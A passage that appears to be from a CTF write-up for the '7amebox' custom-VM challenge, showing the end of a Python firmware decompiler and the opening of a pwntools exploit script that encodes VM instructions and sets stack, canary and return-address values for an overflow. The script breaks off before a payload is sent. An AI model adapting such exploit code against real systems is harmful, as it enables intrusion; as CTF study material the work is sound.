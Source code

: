 ```

                print hex(cur_pc) + ":    op_x0    " + "mov " + dst + ", " + "[" + src + "+1] << 14 " + " [ " + src + "+2] << 7 " + "[ " + src + "]"

            else:
                terminate("[VM] Invalid instruction")

 ...

def main():
    decompiler = decomp()
    decompiler.load_file("/home/sungyun/round2/7amebox-name/mic_check.firm")
    decompiler.execute()


if __name__ == '__main__':
    main()

```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def write_tri(data):

        buf=[0 for i in range(3)]

        buf[0] = chr(data  & 0b000000000000001111111)
        buf[1] = chr((data & 0b111111100000000000000)>>14)
        buf[2] = chr((data & 0b000000011111110000000) >>7)
	return "".join(buf)

def mov_reg_value(dreg,value):
	op=0x12
	opers=0x10*dreg

	return chr(op)+chr(opers)+write_tri(value)

def mov_reg_reg(dreg,sreg):
	op=0x10
	oper=0x10*dreg
	oper+=0x01*sreg

	return chr(op)+chr(oper)

def syscall():
	op=0x20
	oper=0x0
	return chr(op)+chr(oper)

file_path="/home/sungyun/round2/7amebox-name/vm_name.py"

p=process(['python', '-u', file_path])

p.recvuntil("name>")

stack=0xf5000
canary=0x12345
ret=0x2a
buf=stack-0x200

```
